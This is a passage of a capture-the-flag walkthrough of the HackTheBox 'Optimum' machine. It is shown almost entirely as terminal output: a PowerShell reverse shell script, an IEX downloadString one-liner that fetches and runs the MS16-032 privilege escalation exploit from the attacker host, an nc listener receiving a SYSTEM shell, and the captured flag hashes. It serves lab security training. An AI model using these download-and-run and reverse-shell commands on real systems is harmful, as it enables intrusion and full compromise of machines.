root@kali:~/optimum# tail shell.ps1
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 1338
root@kali:~/optimum#
```

```sh
root@kali:~/optimum# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.8 - - [23/Jan/2018 00:22:49] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:22:49] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:22:49] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:22:49] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:23:13] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:31] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:31] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:31] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:31] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:48] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:48] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:48] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:25:49] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [23/Jan/2018 00:29:51] "GET /Invoke-MS16032.ps1 HTTP/1.1" 200 -
```

```sh
PS C:\Users\kostas\Desktop> IEX(New-Object Net.Webclient).downloadString('http://10.10.14.5:8000/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

PS C:\Users\kostas\Desktop>
```

```sh
root@kali:~# nc -lvp 1338
listening on [any] 1338 ...
10.10.10.8: inverse host lookup failed: Unknown host
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49275
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
PS C:\Users\kostas\Desktop>
```

```
PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
PS C:\Users\kostas\Desktop>
```

```
PS C:\Users\Administrator\Desktop> cat root.txt
51ed1b36553c8461f4552c2e92b3eeed
PS C:\Users\Administrator\Desktop>
```

###### Msf Exploitation of ``HttpFileServer httpd 2.3``

- [IppSec](https://youtu.be/kWTnVBIpNsE?t=1258)
- [infosecuritygeek](https://infosecuritygeek.com/hackthebox-optimum/)
- [berzerk0](https://gist.github.com/berzerk0/78e6af81c33e3bd5988de2adf8529e4e)
